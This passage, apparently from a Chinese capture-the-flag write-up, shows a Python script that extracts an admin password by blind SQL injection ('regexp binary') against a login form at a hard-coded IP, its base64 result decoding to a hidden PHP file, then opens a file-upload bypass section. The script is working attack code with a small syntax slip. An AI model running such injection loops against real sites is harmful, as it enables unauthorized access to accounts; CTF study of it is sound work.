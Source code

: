 使用regexp binary注入：

```python
burp0_url = "http://114.55.36.69:6663/index.php"
burp0_headers = {
    "Cache-Control": "max-age=0",
    "Origin": "http://114.55.36.69:6663",
    "Upgrade-Insecure-Requests": "1",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3377.1 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
    "Referer": "http://114.55.36.69:6663/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close"}

result = ''
payload = "admin' and password regexp binary '^{res}'#"
for i in xrange(0,50):
    for j in xrange(32,126):
        if chr(j) in ['*','\\','/','(',')','+','.','?','[',']','^']:
            continue
        hh = payload.format(res=result+chr(j)
        print hh

        burp0_data = {"username": hh, "password": "admin"}
        zz = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
        #print zz.content
        if 'password error!' in zz.content:
            result += chr(j)
            print result
            break
```

得到：dVAxMEBkX25Fdy5waHA=$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$

base64解码后得到uP10@d_nEw.php

## 0x03 文件上传绕过

访问看到一个上传界面

![1539405581893](writeup.assets/1539405581893.png)

